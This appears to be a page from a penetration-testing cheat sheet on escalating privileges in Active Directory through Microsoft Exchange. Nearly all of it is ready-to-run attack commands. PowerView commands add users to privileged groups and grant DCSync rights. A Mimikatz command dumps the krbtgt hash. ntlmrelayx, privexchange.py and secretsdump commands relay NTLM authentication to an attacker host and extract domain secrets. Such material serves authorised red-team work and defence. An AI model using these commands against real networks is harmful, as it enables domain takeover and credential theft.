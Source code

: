 ````
#### Enumerate if exchange groups exist
```
. ./Powerview.ps1
Get-DomainGroup *exchange*
```

#### Enumerate membership of the groups
```
Get-DomainGroupMember "Organization Management"
Get-DomainGroupMember "Exchange Trusted Subsystem"
Get-DomainGroupMember "Exchange Windows Permissions"
```

#### If we have privileges of a member of the Organization Management, we can add a user to the 'Exchange Windows Permissions' group.
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'Exchange Windows Permissions'
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

#### Add permissions to execute DCSYNC
- When member of the ```Exchange Windows Permissions``` group
```
Add-DomainObjectAcl -TargetIdentity 'DC=<PARENT DOMAIN>,DC=<TOP DOMAIN>' -PrincipalIdentity '<USER>' -Rights DCSync -Verbose
```

#### Execute DCSYNC
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

#### If we have privileges of 'exchange user', who is a member of the Exchange Trusted Subsystem, we can add any user to the DNSAdmins group:
```
$user = Get-DomainUser -Identity <USER>
$group = Get-DomainGroup -Identity 'DNSAdmins'
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

### NTLM Relay MS Exchange abuse
- https://pentestlab.blog/2019/09/04/microsoft-exchange-domain-escalation/
- https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/

#### The attack using domain credentials
- https://github.com/dirkjanm/privexchange/
- Can either relay to `ldap` or `ldaps`
```
sudo python3 ntlmrelayx.py -t ldap://<DC> --escalate-user <USER>

python3 privexchange.py -ah <ATTACKER HOST> <EXCHANGE SERVER> -u Username -d <DOMAIN NAME>

secretsdump.py <DOMAIN>/<USER>@<DC IP> -just-dc
```

#### The attack without credentials
- using LLMNR/NBNS/mitm6 spoofing and https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py
```
sudo python3 ntlmrelayx.py -t https://<EXCH HOST>/EWS/Exchange.asmx
```

#### Restore ACL's with aclpwn.py
- NTLMRelayx performs acl attacks a restore file is sived that can be used to restore the ACL's
````